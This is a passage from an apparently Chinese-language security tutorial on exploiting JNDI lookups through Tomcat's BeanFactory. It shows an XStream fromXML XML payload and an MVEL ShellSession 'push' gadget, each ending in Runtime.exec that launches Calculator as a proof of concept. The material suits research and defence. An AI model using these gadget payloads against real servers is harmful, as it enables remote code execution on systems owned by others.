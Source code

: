                 "              <parameter-types>\n" +
                "                <class>java.lang.Object</class>\n" +
                "              </parameter-types>\n" +
                "            </method>\n" +
                "            <sun.tracing.dtrace.DTraceProbe>\n" +
                "              <proxy class='java.lang.Runtime'/>\n" +
                "              <implementing__method>\n" +
                "                <class>java.lang.Runtime</class>\n" +
                "                <name>exec</name>\n" +
                "                <parameter-types>\n" +
                "                  <class>java.lang.String</class>\n" +
                "                </parameter-types>\n" +
                "              </implementing__method>\n" +
                "            </sun.tracing.dtrace.DTraceProbe>\n" +
                "          </entry>\n" +
                "        </probes>\n" +
                "      </handler>\n" +
                "    </dynamic-proxy>\n" +
                "    <string>/System/Applications/Calculator.app/Contents/MacOS/Calculator</string>\n" +
                "  </java.util.PriorityQueue>\n" +
                "</java.util.PriorityQueue>";
        ref.add(new StringRefAddr("forceString", "a=fromXML"));
        ref.add(new StringRefAddr("a", xml));
        return ref;
    }
    ```

#### MVEL

MVEL的入口`org.mvel2.MVEL#eval(String)`因为无参构造方法是private修饰的，所以不符合条件，但其中存在可用的类。

从`org.mvel2.sh.ShellSession#exec(String)`进入会按照内置的几个命令进行处理。

```
"help" -> {Help@706} 
"exit" -> {Exit@708} 
"cd" -> {ChangeWorkingDir@710} 
"set" -> {Set@712} 
"showvars" -> {ShowVars@714} 
"ls" -> {DirList@716} 
"inspect" -> {ObjectInspector@718} 
"pwd" -> {PrintWorkingDirectory@720} 
"push" -> {PushContext@722} 
```

其中PushContext类有调用MVEL.eval去解析表达式，因此能够通过 ShellSession.exec(String) 去执行push命令，从而解析MVEL表达式

??? note "code"

    ```java
    private static ResourceRef tomcat_MVEL(){
        ResourceRef ref = new ResourceRef("org.mvel2.sh.ShellSession", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=exec"));
        ref.add(new StringRefAddr("a",
                "push Runtime.getRuntime().exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator');"));
        return ref;
    }
    ```
